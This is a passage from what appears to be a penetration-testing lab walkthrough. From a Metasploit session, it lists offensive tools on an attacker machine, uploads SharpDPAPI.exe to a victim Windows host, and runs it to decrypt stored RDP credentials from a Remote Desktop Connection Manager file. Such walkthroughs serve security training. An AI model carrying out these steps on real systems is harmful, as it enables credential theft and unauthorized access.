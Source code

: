 _Exit the shell to return to the Metasploit console._

`exit`

<span style="color: #e57373;">**Attacker machine**</span>.

_List the files available in the tools directory on the Kali machine to identify any tools that could assist in decrypting the credentials found in the `.rdg` file._

`ls -alps /root/Desktop/tools`:
```
total 7860
   4 drwxr-xr-x 1 root root    4096 Sep  2  2021 ./
   4 drwxr-xr-x 1 root root    4096 Aug 21 12:40 ../
   4 drwxr-xr-x 2 root root    4096 Dec  7  2020 Delorean/
   4 drwxrwxr-x 3 root root    4096 Mar  2  2021 FakeLogonScreen/
   4 drwxr-xr-x 3 root root    4096 Dec  7  2020 JohnTheRipper/
   4 drwxrwxr-x 2 root root    4096 Apr 22  2021 PrintSpoofer/
   4 drwxr-xr-x 6 root root    4096 Sep  2  2021 ReflectiveDLLInjection/
   4 drwxrwxr-x 4 root root    4096 Jul  7  2021 SCShell/
 232 -rw-rw-r-- 1 root root  236544 Jan  7  2021 SharPersist.exe
 128 -rw-rw-r-- 1 root root  130048 Sep  2  2021 SharpDPAPI.exe ←
   4 drwxr-xr-x 2 root root    4096 Dec  7  2020 firepwd/
   4 drwxr-xr-x 2 root root    4096 Dec  7  2020 ircsnapshot/
   4 drwxrwxr-x 6 root root    4096 Apr 22  2021 juicy-potato/
   4 drwxr-xr-x 2 root root    4096 Dec  7  2020 known_hosts-hashcat/
   4 drwxrwxr-x 4 root root    4096 Jun 24  2021 mimikatz/
   4 drwxr-xr-x 3 root root    4096 Dec  7  2020 portable/
7424 -rw-rw-r-- 1 root root 7599619 Jun 28  2021 python-3.9.6-embed-win32.zip
   4 drwxr-xr-x 2 root root    4096 Dec  7  2020 reGeorg/
   4 drwxr-xr-x 1 root root    4096 Aug 18  2021 scripts/
   4 drwxr-xr-x 1 root root    4096 Aug 17  2021 srtp-decrypt/
   4 drwxr-xr-x 2 root root    4096 Dec  7  2020 steganography/
   4 drwxr-xr-x 1 root root    4096 Sep  2  2021 sysinternals-tools/
```

<span style="color: #64b5f6;">**Target (victim 1) machine**</span>.

_Navigate to the directory where the `.rdg` file was found and upload the `SharpDPAPI.exe` tool to the victim machine. This tool will be used to decrypt the RDP credentials._

`cd 'C:\Users\Administrator\Documents'`

`upload /root/Desktop/tools/SharpDPAPI.exe`:
```
[*] uploading  : /root/Desktop/tools/SharpDPAPI.exe -> SharpDPAPI.exe
[*] Uploaded 127.00 KiB of 127.00 KiB (100.0%): /root/Desktop/tools/SharpDPAPI.exe -> SharpDPAPI.exe
[*] uploaded   : /root/Desktop/tools/SharpDPAPI.exe -> SharpDPAPI.exe ←
```

_Execute the SharpDPAPI tool with the `/unprotected` option to decrypt the `.rdg` file and reveal the stored RDP password._

`SharpDPAPI.exe rdg /unprotected`:
```
  __                 _   _       _ ___ 
 (_  |_   _. ._ ._  | \ |_) /\  |_) |  
 __) | | (_| |  |_) |_/ |  /--\ |  _|_ 
                |                      
  v1.11.1                               


[*] Action: RDG Triage

[*] Triaging RDCMan.settings Files for ALL users

    RDCManFile    : C:\Users\Administrator\AppData\Local\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```